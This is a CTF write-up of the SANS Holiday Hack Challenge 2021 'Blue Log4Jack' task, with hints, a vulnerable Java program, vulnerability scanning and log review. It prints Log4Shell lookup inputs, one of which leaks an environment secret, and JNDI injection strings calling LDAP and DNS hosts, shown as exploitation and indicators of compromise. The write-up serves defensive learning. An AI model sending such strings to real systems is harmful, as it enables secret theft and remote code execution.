 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 14. Bonus! Blue Log4Jack
The objective is to demonstrate, patch and provide advice on the recent Log4Jack vulnerability.

### 14.0. Hints
**Log4j Talk** - *Bow Ninecandle*: “Prof. Qwerty Petabyte is giving [a lesson](https://youtu.be/OuYMPU3-0p4) about Apache Log4j.”
**Log4j Search Script** - *Bow Ninecandle*: “Josh Wright's [simple checker script](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41) uses the power of regex to find vulnerable Log4j libraries!”
**Log4j Remediation** - *Bow Ninecandle*: “[Clearing Log4j issues](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) from systems.”
**Log4J at Apache** - *Bow Ninecandle*: “Software by the [Apache Foundation](https://logging.apache.org/log4j/2.x/manual/lookups.html) runs on devices all over the internet”

#### 14.1. Solution
The shell walks through the compilation and exploiting of the vulnerable “DisplayFilev2” java program:
```java
import java.io.*;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class DisplayFilev2 {
    static Logger logger = LogManager.getLogger(DisplayFilev2.class);
    public static void main(String[] args) throws Exception {
        String st;
        try {
            File file = new File(args[0]);
            BufferedReader br = new BufferedReader(new FileReader(file));

            while ((st = br.readLine()) != null)
                System.out.println(st);
        }
        catch (Exception e) {
            logger.error("Unable to read file " + args[0] + " (make sure you specify a valid file name).");
        }
    }
}
```

Below a local exploitation of the vulnerability:
```bash
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${java:version}'
12:27:14.110 [main] ERROR DisplayFilev2 - Unable to read file Java version 1.8.0_312 (make sure you specify a valid file name).
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${env:APISECRET}'
12:27:44.523 [main] ERROR DisplayFilev2 - Unable to read file pOFZFiWHjqKoQaRhNYyC (make sure you specify a valid file name).
```

The shell then uses log4j-scan to identify vulnerable java applications:
```bash
elfu@33580ab650ea:~/vulnerable$ log4j2-scan /var/www/solr/
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: /var/www/solr/ (without tmpfs, shm)
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/server/lib/ext/log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/contrib/prometheus-exporter/lib/log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 102 directories and 1988 files
Found 2 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.34 seconds
```

Also it uses the script logshell-search to observe IOCs in `/var/log/www` logs:
```bash
elfu@33580ab650ea:~/vulnerable$ logshell-search.sh /var/log/www/
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"
```

---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)